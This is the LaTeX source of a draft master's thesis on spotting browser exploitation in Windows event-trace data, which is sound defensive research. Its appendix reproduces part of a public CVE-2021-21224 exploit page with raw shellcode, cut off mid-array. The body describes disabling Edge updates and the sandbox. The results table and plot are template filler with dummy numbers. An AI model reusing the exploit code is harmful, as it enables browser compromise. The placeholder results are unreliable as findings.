% !TeX spellcheck = en_GB
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%                                        %
%      Master thesis LaTeX template      % 
%                                        %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



\documentclass[a4paper,twoside,12pt]{book}
\usepackage[utf8]{inputenc}                                      
\usepackage[T1]{fontenc}  
\usepackage{amsmath,amsfonts,amssymb,amsthm}
\usepackage[polish,british]{babel} 
\usepackage{indentfirst}
\usepackage{lmodern}
\usepackage{graphicx} 
\usepackage{hyperref}
\usepackage{booktabs}
\usepackage{tikz}
\usepackage{pgfplots}
\usepackage{mathtools}
\usepackage{geometry}
\usepackage[page]{appendix} 

\usepackage{setspace}
\onehalfspacing


\frenchspacing

\usepackage{listings}
\lstset{
	language={},
	basicstyle=\ttfamily,
	keywordstyle=\lst@ifdisplaystyle\color{blue}\fi,
	commentstyle=\color{gray}
}

%%%%%%%%%

 

%%%%%%%%%%%% FANCY HEADERS %%%%%%%%%%%%%%%

\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhf{}
\fancyhead[LO]{\nouppercase{\it\rightmark}}
\fancyhead[RE]{\nouppercase{\it\leftmark}}
\fancyhead[LE,RO]{\it\thepage}


\fancypagestyle{onlyPageNumbers}{%
   \fancyhf{} 
   \fancyhead[LE,RO]{\it\thepage}
}

\fancypagestyle{PageNumbersChapterTitles}{%
   \fancyhf{} 
   \fancyhead[LO]{\nouppercase{\it\rightmark}}
   \fancyhead[RE]{\nouppercase{\it\leftmark}}
   \fancyhead[LE,RO]{\it\thepage}
}

 

% some issues...

\newcounter{PagesWithoutNumbers}

\newcommand{\hcancel}[1]{%
    \tikz[baseline=(tocancel.base)]{
        \node[inner sep=0pt,outer sep=0pt] (tocancel) {#1};
        \draw[red] (tocancel.south west) -- (tocancel.north east);
    }%
}%

\newcommand{\MonthName}{%
  \ifcase\the\month
  \or January% 1
  \or February% 2
  \or March% 3
  \or April% 4
  \or May% 5
  \or June% 6
  \or July% 7
  \or August% 8
  \or September% 9
  \or October% 10
  \or November% 11
  \or December% 12
  \fi}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Helvetica font macros for the title page:
\newcommand{\headerfont}{\fontfamily{phv}\fontsize{18}{18}\bfseries\scshape\selectfont}
\newcommand{\titlefont}{\fontfamily{phv}\fontsize{18}{18}\selectfont}
\newcommand{\otherfont}{\fontfamily{phv}\fontsize{14}{14}\selectfont}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\newcommand{\Author}{Maksym Brzęczek}
\newcommand{\Supervisor}{Błażej Adamczyk, PhD}
\newcommand{\Consultant}{Name Surname, PhD}
\newcommand{\Title}{Security anomaly detection based on Windows Event Trace}
\newcommand{\Polsl}{Silesian University of Technology}
\newcommand{\Faculty}{Faculty of Automatic Control, Electronics and Computer Science}


\begin{document} 
	
%%%%%%%%%%%%%%%%%%  Title page %%%%%%%%%%%%%%%%%%% 
\pagestyle{empty}
{
	\newgeometry{top=2.5cm,%
	             bottom=2.5cm,%
	             left=3cm,
	             right=2.5cm}
	\sffamily
	\rule{0cm}{0cm}
	
	\begin{center}
	
\includegraphics[width=29mm]{polsl}
	\end{center} 
	\vspace{1cm}
	\begin{center}
	\headerfont \Polsl
	\end{center}
	\begin{center}
	\headerfont \Faculty
	\end{center}
	\vfill
	\begin{center}
	\titlefont Master  thesis
	\end{center}
	\vfill
	
	\begin{center}
	\otherfont \Title\par
	\end{center}
	
	\vfill
	
	\vfill
	 
	\noindent\vbox
	{
		\hbox{\otherfont author: \Author}
		\vspace{12pt}
		\hbox{\otherfont supervisor: \Supervisor}
		\vspace{12pt}
		\hbox{\otherfont consultant: \Consultant}
	}
	\vfill 
 
   \begin{center}
   \otherfont Gliwice,  \MonthName\ \the\year
   \end{center}	
	\restoregeometry
}
  

\cleardoublepage
 

\rmfamily
\normalfont


%%%%%%%%%%%% statements required by law and Dean's office %%%%%%%%%%
\cleardoublepage

\begin{flushright}
załącznik nr 2 do zarz. nr 97/08/09 
\end{flushright}

\vfill  

\begin{center}
\Large\bfseries Oświadczenie
\end{center}

\vfill

Wyrażam  zgodę / Nie wyrażam zgody*  na  udostępnienie  mojej  pracy  dyplomowej / rozprawy doktorskiej*.

\vfill

Gliwice, dnia {\selectlanguage{polish}\today}

\vfill

\rule{0.5\textwidth}{0cm}\dotfill 

\rule{0.5\textwidth}{0cm}
\begin{minipage}{0.45\textwidth}
{\begin{center}(podpis)\end{center}}
\end{minipage} 

\vfill

\rule{0.5\textwidth}{0cm}\dotfill 

\rule{0.5\textwidth}{0cm}
\begin{minipage}{0.45\textwidth}
{\begin{center}\rule{0mm}{5mm}(poświadczenie wiarygodności podpisu przez Dziekanat)\end{center}}
\end{minipage}


\vfill

* podkreślić właściwe

 


%%%%%%%%%%%%%%%%%%%%%  
\cleardoublepage

\rule{1cm}{0cm}

\vfill  

\begin{center}
\Large\bfseries Oświadczenie promotora
\end{center}

\vfill

Oświadczam, że praca „\Title” spełnia wymagania formalne pracy dyplomowej magisterskiej.

\vfill



\vfill

Gliwice, dnia {\selectlanguage{polish}\today}

\rule{0.5\textwidth}{0cm}\dotfill 

\rule{0.5\textwidth}{0cm}
\begin{minipage}{0.45\textwidth}
{\begin{center}(podpis promotora)\end{center}}
\end{minipage} 

\vfill
 
 

\cleardoublepage


%%%%%%%%%%%%%%%%%% Table of contents %%%%%%%%%%%%%%%%%%%%%%
\pagenumbering{Roman}
\pagestyle{onlyPageNumbers}
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\setcounter{PagesWithoutNumbers}{\value{page}}
\mainmatter
\pagestyle{PageNumbersChapterTitles}

%%%%%%%%%%%%%% body of the thesis %%%%%%%%%%%%%%%%%

\chapter{Introduction}

This chapter presents the problem that the project tries to solve and describes the scope 
of the thesis. It also describes the document structure.



\section{Introduction into the problem domain}


In todays world information technology (IT) is present in almost every aspect of our lives. 
It is constantly being utilised by goverments, military, organisations, financial institutions,
univiersities and other businesses to process and store enormous amounts of data as well as 
transmit it between manny computers around the globe. Any disruption to the work of those 
systems or unauthorized access to the stored information may refult in significant losses.
Those may include financial and geopolitical repercussions but also direct losses of human
lives in situations where the target of a attack is for example a hospital. Since the inception
and propagation of IT the security of the systens in question is growing concern of corporations, 
countries and even inviduals. Because of the constant arms race between adversaries attacking 
and defending IT systems, anyone who is not proactively handling matters concerning cyber security 
is instantly falling behind. \cite{bib:articleImportanceOfCybersecurity} 

A typical attack on a IT system may include exploitation of a design 
flaw to gain increased access. The offencive actions can target manny different layers of 
abstraction present in current IT systems. Such situtations are extreamaly hard to discover 
and guard against due to the fact that they were not forsen in the design process. How to guard 
agains something that is not known to be possible. There are many approaches that aim to 
increase the security of IT systems. Some popular ones include fingerprinting malware, 
monitoring software for specific suspicious actions or monitoring software inputs for know 
malitious values. Those approaches can be very effective but failures are inevitable.

To mitigate this problem multiple studies has been done that attempt to utilise the methods of
anomaly detection known from the data science fields in order to identify the misbehaviours of 
the monitored IT systems which could allow for an early detection of novel 0-day based intrusions.
The past investigations of the problem has focused on analysis of the infromation obtained from 
multiple sources like system commands sequences \cite{bib:lane1997application} or system calls 
\cite{bib:rsvm}. There are however still manny mechanisms present in modern operating systems 
that gather sygnificant quantities of information about inner workings of the processes executed
on them. 

The objective of this thesis is to utilise the Event Trace for Windows (ETW) mechanism and it's 
capability to access low level debugging data on the Microsoft operating systems to attempt
security anomaly detection. 

% \begin{itemize}
% \item introduction into the problem domain
% \item settling of the problem in the domain
% \item objective of the thesis
% \item scope of the thesis
% \item short description of chapters
% \item clear description of contribution of the thesis's author
% \end{itemize}

%TODO scope

%TODO description of the chapters

\section{Authors contribution}

Author of the thesis has simulated a 0-day exploitation attack on a web browser and gathered 
the data generated in the process via the Event Trace for Windows mechanism. The acquired 
information was processed to extract features that could be utilised in an anomaly detection
methods. This procedure included developing some novel data encoding approaches. Gathered data
was tested in known classification algorithms and the results of the experiments were analysed.
Based on the performed actions a conclusion was formed about the usefulness of the ETW data
in potential anomaly detection based security system. Additionally further research directions
has been established.

\section{Chapters description}

This section contains following chapters.
\begin{itemize}
	\item Introduction - Describes the domain of the researched problem and the basis for the 
	topic of the thesis. Highlights the the contributions of the author. Provides overview of the 
	chapters present in this document.
	\item Problem analysis - Theoretical indepth study of the work required to achive the thesis
	goal. Investigation of known literature related to the researched topic. Description of the 
	previous known solutions of the problem. 
	\item Security anomaly detection based on Windows Event Trace - Full description of the proposed
	solutions and their theoretical analysis. Rationalization of the employed algorithms, methods 
	and tools.
	\item Data gathering - Thorough explanation of the performed data gathering process and of 
	the obtained results.
 	\item Experiments - Full description of all experiments performed in the process of thesis 
 	research. Analysis of the outcomes.
	\item Summary - Synopsis of the performed work. Summary of all the resulting conclusions and 
	possible future research directions. Analysis of the thesis goal in light of the obtained
	results. 
\end{itemize}

\chapter{[Problem analysis]}

% TODO chapter description

There are multiple problems that need to be solved to form conclusions to the stated questions.
There are no commonly avaible security focused datasets sourced from the Event Trace for 
Windows mechanism. The data used in the thests has to be generated and gathered as part of the
performed work. The information processed by the ETW is very broad and can be additionally extended.
A analysis has to be done in order to identify the features that can prove useful in the security
anomaly detection scenarios. 

Gathered data might require preprocessing that will adjust it's form to the formats accepted in the
current classification methods and algorithms. Some types of information present in the computer 
generated data set might require utilisation of novel processing and encoding frameworks or 
development of new approaches to them.  


%TODO znane metody wykrywania anomaliów

The previous attempts of implementing a security anomaly detection frameworks depicted in the 
literature take manny different approaches. Some of those include analysis of specific sequences
present in terminal commands \cite{bib:lane1997application} or system calls \cite{bib:forest}. 
Other classify aviable data with well known algorithms like Support Vector Machines (SVM) and K-means 
\cite{bib:rsvm}. %TODO opisać działanie i dalsze przykłady
Based on the studied literature one of the well-suited result presentation methods is the Receiver 
Operating Characteristic (ROC) curve which is a plot of the detection accuracy against the false 
positive ratio. The proboability of false anomaly detection is crucial because it may cause overlaod
on of the response teams and mechanisms which in turn may result in delayed response or omission
of actual exploitation. 


% \begin{itemize}
% \item problem analysis, problem statement
% \item state of the art, literature research (all sources in the thesis have to be referenced \cite{bib:article,bib:book,bib:conference})
% \item description of known solutions, algorithms
% \item location of the thesis in scientific domain
% \item The title of this chapter is similar to the title of the thesis.
% \end{itemize}





\chapter{Security anomaly detection based on Windows Event Trace}

To achieve the goal of the thesis a dataset based of the Windows Event Trace has to 
be created. The ETW framework can be accessed and utilised via API aviable in multiple
programing languages like C/C++\cite{bib:etwcpp} or C\#\cite{bib:etwcsharp}. The 
data gathering process should however be performed with known and tested solutions to
minimise the chance of data corruption. The default file format used by ETW for storing 
information is a Event Trace Log (ETL). This archive type is not very well documented in 
the resources aviable on the internet. A additional tool might be required in order to 
transform gathered information to commonly known data storing formats.


In the thesis the main anomaly detection algorithm utilised is the One Class Support 
Vector Machine which is a variation on support vector machine. It attempts to minimise 
the radius of the multidimensional hypersphere with the use of Kernel Method \cite{bib:ocsvm}. 
This algorithm is the main annomaly detection utilised in the thesis due to it's ease of
usage. It is also known to be efective in high dimentional spaces and when 
the number of features is greater then the number of samples \cite{bib:svms}. The training process 
does not require significant computational and memory resources when compared to the latest
approaches based on neural networks.

The 
% Analysis of the data in ETW 
% DLL's
% Paths
% 


% \begin{itemize}
% \item solution to the problem proposed by the author of the thesis
% \item theoretical analysis of proposed solutions
% \item rationale of applied methods, algorithms, and tools
% \end{itemize}

\chapter{Data gathering}

This chapter describes the process of gathering data utilised in the experiments and 
analysed in this thesis. This procedure is necessary due to the lack of commonly aviable 
datasets that would fit the neads of work performed. 

\section{Exploit emulation}

The data used in the thesis was gathered on a Windows 10 Enterprise Evaluation operating 
system, version 20H2, build 19042.1052. The Microsoft Edge web browser used to simulate 
the 0-day exploit attack was artificially halted in the version 84.0.522.52 (64-bit). 
Automatic updates were interrupted by changing the name of the binary responsible for 
keeping the software up to date. It is commonly located under 
"C:\textbackslash Program Files (x86)\textbackslash Microsoft\textbackslash 
EdgeUpdate\textbackslash MicrosoftEdgeUpdate.exe". 
The atack simulated in the data takes advantage of the vulnerability CVE-2021-21224. It 
targets a type confusion flaw in the V8 JavaScript engine. This allows the attacker to 
execute arbitrary code inside a sandbox via a specially crafted HTML page \cite{bib:CVE21224}. 
The vulnerability affects the Google Chrome browser prior to the version 90.0.4430.85 as 
well as Microsoft Edge prior to 90.0.818.41 \cite{bib:edgeRelease}. Some reports indicate 
that this vulnerability might have been used by the state backed north korean agents to 
attack security researchers and gain insight into their work. The exact method of
exploitation is not known since the abuse of CVE-2021-21224 does not not allow to bypass 
the builtin Chromium sandbox. There are also reports of Russian government-backed actors 
using CVE-2021-1879 to target western european government officials \cite{bib:googleBlog}. 
This method might have been chained with other non-public vulnerabilities in order to 
perform a successful attack. To simulate such conditions the browser used in testing was 
run with the "--no-sandbox" flag which disables the builtin safeguard.

The sample of the exploit code was obtained from a public GitHub repository 
\cite{bib:sampleExploit} and it's code can be found in the listing \lstinline|"exploit.html"|. 
It was adjusted to result in the start of the PowerShell.exe process. Execution of this 
cross-platform task automation solution made up of a command-line shell, a scripting 
language, and a configuration management framework is usually one of the first steps in 
the process of gaining persistent access to a given machine. Some actors implement advanced 
code and logic into the exploit. This is however very uncommon due to the high complexity 
of such a task.

\section{Logging}

The initial data was gathered by the PerfView.exe tool which is "a free performance-analysis 
tool that helps isolate CPU and memory-related performance issues. It is a Windows tool, 
but it also has some support for analyzing data collected on Linux machines. It works for 
a wide variety of scenarios, but has a number of special features for investigating 
performance issues in code written for the .NET runtime"\cite{bib:PerfView}. It is capable of 
tapping into many ETW logging sessions and storing the gathered data into output files. It also 
has functionality that helps in working with the saved information. Main purpose of PerfView 
in the thesis was data gathering and preprocessing. The software is open source.
It was configured to gather only the "Kernel Base" information. The additional data sources 
were disabled due to the large quantity of data being generated and not sufficient memory 
available for the processing. Example PerfView configuration can be found in figure 
\ref{fig:PerfViewConfig}. 

\begin{figure}
	\centering
	
\includegraphics[scale=0.55]{images/perf_config}
	\caption{Example PerfView logging configuration}
	\label{fig:PerfViewConfig}
 \end{figure}

The resulting information is saved to a Microsoft Event Trace Log File (.etl) which can be 
processed in multiple ways. PerfView has a builtin function of extracting the information 
gathered about the executed processes and their loaded dll's to Excel executable installed 
on the system. This can be performed by opening the desired file in the builtin explorer 
and selecting its "Processes" option. This opens a separate window containing information 
about processes executed during data gathering and two possible export options - 
"View Process Data in Excel" and View Process Modules in Excel". The Excel executable 
opened by choosing either of the options allows to save the data to multiple easily 
accessible file formats like .csv, .xml or xlsx. Loaded data and the export options are 
presented in figure \ref{fig:PerfViewexport}.

\begin{figure}
	\centering
	
\includegraphics[scale=0.55]{images/perf_export}
	\caption{PerfView data export}
	\label{fig:PerfViewexport}
 \end{figure}

Resulting from the described process are two files containing correlated information. By 
default Excel labels those files by including identifying suffixes in their names. The 
first file is marked by the string "processesSummary" and contains general information 
about the processes which include following columns:
\begin{itemize}
	\item Name - Process name - The name of the process, usually identical to the binary 
	file name.
	\item ID - Process Id - The integer number used by the kernel to uniquely identify 
	an active process \cite{bib:MicrosoftWinInternals}.
	\item Parent\_ID - Parent Process Id - The Process Id of the process that spawned the 
	correlating one.
	\item Bitness - Whether the process executable is created in 32 or 64 bit architecture.
	\item CPUMsec - Ammount of milliseconds in which the process has ocupied the processor. 
	\item AveProcsUsed - Average processor utilisation calculated by dividing the amount
	of time when process has ocupied the processor by the total process lifespan. 
	\item DurationMSec - The duration of the process life stored in milliseconds.
	\item StartMSec - The start time of the process stored in milliseconds.
	\item ExitCode - Integer value returned after the process execution. Commonly known as 
	exit code.
	\item CommandLine - The command used to spawn the process.
\end{itemize}

Second output file commonly contains the string "processesModule" in its name. Its contents
are the modules (DLL's) loaded by a specific process and information about them. Example 
output file contains following data columns:
\begin{itemize}
	\item ProcessName - Name of the process which loaded the corresponding DLL
	\item ProcessID - Id of the process which loaded the corresponding DLL
	\item Name - Name of the loaded DLL
	\item FileVersion - Version of the loaded DLL
	\item BuildTime - Date when the DLL file was build
	\item FilePath - The location of the DLL file on the host system
\end{itemize}

Data gathering was performed on a simulated host usage. The tasks performed in the process 
included consumption of online media (eg. youtube.com, netflix.com), office work on cloud 
based services (eg. Google Docks, Gmail ), social media browsing (eg. facebook.com, 
twitter.com), downloading files and other web browsing. Downloaded files were opened 
directly from the browser. The data was gathered in the timespan of X hours. %TODO x hours

\section{Preprocessing}

Gathered data was initially analysed and processed to fit different machine learning 
frameworks and to simplify its manual analysis. This operation was complicated by the 
reuse of process id's in the operating system. In order to identify which of the processes 
corresponding to the parent id is the true ancestor a additional check is performed based 
on the time of spawn and the interval in which the possible parent was alive. This algorithm 
allows the creation of a spawning process path that tracks the ancestors of a given process, 
usually to one of multiple root programs in the operating system. 

Additionally a process of OneHot encoding was performed on the loaded DLL's. The data from 
the "processSummary" and "processModules" files was correlated by the order in which it was 
stored. Three of the stored processes never in testing had any corresponding modules - 
"Registry", "MemCompression" and the process marked with -1 ProcessId.

The final product of the data processing is a dataset containing information about all the 
executed processes. Each row represents an individual process and following information is 
provided in the columns:
\begin{itemize}
	\item ProcName - Process name - The name of the process, usually identical to the binary 
	file name. 
	\item ProcId - Process Id - The integer number used by the kernel to uniquely identify 
	an active process \cite{bib:MicrosoftWinInternals}.
	\item ProcPath - String containing sequence of parent processes separated by "/".
	\item ProcPathId - String containing sequence of parent process id's separated by "/".
	\item CommandLine - String containing the shell command used to start the process.
	\item ParentId - The identifying integer number of the parent process. 
	\item DLLs - All columns not listed above contain OneHot encoded information about the 
	dynamically linked libraries (DLLs). When a column contains value 1 the process has 
	loaded the dll specified in the column name.
\end{itemize}

\chapter{Experiments}


This chapter describes the experiments performed to achieve the purpose of the thesis
and the underlying methodology. This includes the utilised tools, information about used datasets,
description of the taken actions and presentation as well as analysis of the obtained results.
% This chapter presents the experiments. It is a crucial part of the thesis and has to dominate in the thesis. 
% The experiments and their analysis should be done in the way commonly accepted in the scientific community (eg. 
% benchmark datasets, cross validation of elaborated results, reproducibility and replicability of tests etc).


\section{Methodology}

Experiments performed to achieve the goals of the thesis were executed with the use of 
the Python 3.8.3rc1 programing language. It was executed via the Jupyter framework which is
a is "an open-source web application that allows you to create and share documents that 
contain live code, equations, visualizations and narrative text. Uses include: data cleaning 
and transformation, numerical simulation, statistical modeling, data visualization, machine 
learning, and much more" \cite{bib:jupyter}. Each experiment was performed in a separate
Jupyter notebook and obtained results were analysed in the same framework. 

Gathered data was also analysed in the Windows Performance Analyzer (WPA) which "is a tool that 
creates graphs and data tables of Event Tracing for Windows (ETW) events that are recorded 
by Windows Performance Recorder (WPR) or Xperf. WPA can open any event trace log (ETL) file 
for analysis" \cite{bib:wpa}. This software was used to perform initial analysis of the 0-day 
exploitation of the chromium based browsers and to formulate areas of focus in the gathered data. 
The tool can be easily installed on Microsoft Windows operating systems from the Microsoft Store.


% \begin{itemize}
% \item description of methodology of experiments
% \item description of experimental framework (description of user interface of research applications 
% – move to an appendix)
% \end{itemize}

\section{Data sets}

% \begin{itemize}
% \item description of data sets
% \end{itemize}

\section{Initial data analysis}

The analysis of the impact of the exploit on the behavior of the targeted browser was 
performed with the use of Windows Performance Analyzer (WPA).  Most browsers give a 
possibility of spawning a new process for example by opening of a downloaded file in 
adequate software. This makes it harder to detect when it is exploited. However upon 
closer look on the way that action is performed we can see that proper child process is 
spawned from the main browser process.

\begin{figure}
	\centering
	
\includegraphics{images/wpa_normal}
	\caption{Example process tree of Microsoft Edge}
	\label{fig:WPAnormal}
 \end{figure}

The exploit however generates a new child from the one corresponding to the browser tab 
in which the exploit was executed. 

\begin{figure}
	\centering
	
\includegraphics{images/wpa_exploit}
	\caption{Process tree of exploited Microsoft Edge}
	\label{fig:WPAexploit}
 \end{figure}

Patterns like this might be possible to learn and detect.


\section{Results}

% \begin{itemize}
% \item presentation of results, analysis and wide discussion of elaborated results, conclusions
% \end{itemize}


\begin{figure}
\centering
\begin{tikzpicture}
\begin{axis}[
    y tick label style={
        /pgf/number format/.cd,
            fixed,  
            fixed zerofill, 
            precision=1,
        /tikz/.cd
    },
    x tick label style={
        /pgf/number format/.cd,
            fixed,
            fixed zerofill,
            precision=2,
        /tikz/.cd
    }
]
\addplot [domain=0.0:0.1] {rnd};
\end{axis} 
\end{tikzpicture}
\caption{A caption of a figure is \textbf{below} it.}
\label{fig:2}
\end{figure}

\begin{table}
\centering
\caption{A caption of a table is \textbf{above} it.}
\label{id:tab:wyniki}
\begin{tabular}{rrrrrrrr}
\toprule
	         &                                     \multicolumn{7}{c}{method}                                      \\
	         \cmidrule{2-8}
	         &         &         &        \multicolumn{3}{c}{alg. 3}        & \multicolumn{2}{c}{alg. 4, $\gamma = 2$} \\
	         \cmidrule(r){4-6}\cmidrule(r){7-8}
	$\zeta$ &     alg. 1 &   alg. 2 & $\alpha= 1.5$ & $\alpha= 2$ & $\alpha= 3$ &   $\beta = 0.1$  &   $\beta = -0.1$ \\
\midrule
	       0 &  8.3250 & 1.45305 &       7.5791 &    14.8517 &    20.0028 & 1.16396 &                       1.1365 \\
	       5 &  0.6111 & 2.27126 &       6.9952 &    13.8560 &    18.6064 & 1.18659 &                       1.1630 \\
	      10 & 11.6126 & 2.69218 &       6.2520 &    12.5202 &    16.8278 & 1.23180 &                       1.2045 \\
	      15 &  0.5665 & 2.95046 &       5.7753 &    11.4588 &    15.4837 & 1.25131 &                       1.2614 \\
	      20 & 15.8728 & 3.07225 &       5.3071 &    10.3935 &    13.8738 & 1.25307 &                       1.2217 \\
	      25 &  0.9791 & 3.19034 &       5.4575 &     9.9533 &    13.0721 & 1.27104 &                       1.2640 \\
	      30 &  2.0228 & 3.27474 &       5.7461 &     9.7164 &    12.2637 & 1.33404 &                       1.3209 \\
	      35 & 13.4210 & 3.36086 &       6.6735 &    10.0442 &    12.0270 & 1.35385 &                       1.3059 \\
	      40 & 13.2226 & 3.36420 &       7.7248 &    10.4495 &    12.0379 & 1.34919 &                       1.2768 \\
	      45 & 12.8445 & 3.47436 &       8.5539 &    10.8552 &    12.2773 & 1.42303 &                       1.4362 \\
	      50 & 12.9245 & 3.58228 &       9.2702 &    11.2183 &    12.3990 & 1.40922 &                       1.3724 \\
\bottomrule
\end{tabular}
\end{table}  



\chapter{Summary}
% \begin{itemize}
% \item synthetic description of performed work
% \item conclusions
% \item  future development, potential future research
% \item Has the objective been reached?
% \end{itemize}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\backmatter
\pagenumbering{Roman}
\stepcounter{PagesWithoutNumbers}
\setcounter{page}{\value{PagesWithoutNumbers}}

\pagestyle{onlyPageNumbers}

%%%%%%%%%%% bibliography %%%%%%%%%%%%
\bibliographystyle{plain}
\bibliography{bibliography}

%%%%%%%%%  appendices %%%%%%%%%%%%%%%%%%% 

\begin{appendices} 


\chapter*{Technical documentation}

\chapter*{List of abbreviations and symbols}

\begin{itemize}
\item[IT] information technology
\item[WPA] Windows Performance Analyzer 
\item[ETW] Event Trace for Windows 
\item[ROC] Receiver Operating Characteristic
\item[SVM] Support Vector Machine 
\item[ETL] Event Trace Log 
% \item[DNA] deoxyribonucleic acid
% \item[MVC] model--view--controller 
% \item[$N$] cardinality of data set
% \item[$\mu$] membership function of a fuzzy set
% \item[$\mathbb{E}$] set of edges of a graph
% \item[$\mathcal{L}$] Laplace transformation
\end{itemize}

\chapter*{Listings}

   
Example of a \lstinline|"exploit.html"| file:

\begin{lstlisting}
<script>
/*
BSD 2-Clause License
Copyright (c) 2021, rajvardhan agarwal
All rights reserved.
Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions 
are met:
1. Redistributions of source code must retain the above copyright 
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright 
   notice, this list of conditions and the following disclaimer 
   in the documentation and/or other materials provided with the 
   distribution.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS 
"AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT 
LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS 
FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE 
COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, 
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, 
BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; 
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT 
LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN 
ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE 
POSSIBILITY OF SUCH DAMAGE.
*/
    function gc() {
        for (var i = 0; i < 0x80000; ++i) {
            var a = new ArrayBuffer();
        }
    }
    let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 
	0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
	0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 
	0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 
	0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 
	0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 
	0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 
	0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 
	0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 
	0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 
	0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 
